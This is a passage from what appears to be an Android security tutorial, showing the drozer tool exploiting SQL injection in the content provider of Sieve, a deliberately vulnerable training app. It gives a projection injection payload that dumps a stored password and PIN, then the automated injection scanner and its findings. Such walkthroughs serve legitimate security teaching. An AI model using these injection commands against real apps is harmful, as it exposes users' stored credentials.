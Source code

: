 ```bash
  android_metadata
  Passwords
  Key
```

Let's go for `/Passwords`

```bash
dz>  run app.provider.query content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords --projection "* FROM Key ;--"
Attempting to run shell module
| Password             | pin  |
| 01234567890123456789 | 1234 |
```
This lets us see all of the tables in the database.



### Let Drozer Automate the Testing

Drozer provides a set of commands to help us automate this process. To check if a content provider has a SQL injection, simply run the following command:

```bash
dz> run scanner.provider.injection -a com.withsecure.example.sieve

#...
Injection in Projection:
  content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords
content://com.withsecure.example.sieve.provider.DBContentProvider/Keys/ content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/

Injection in Selection:
  content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords
content://com.withsecure.example.sieve.provider.DBContentProvider/Keys/
content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/
```


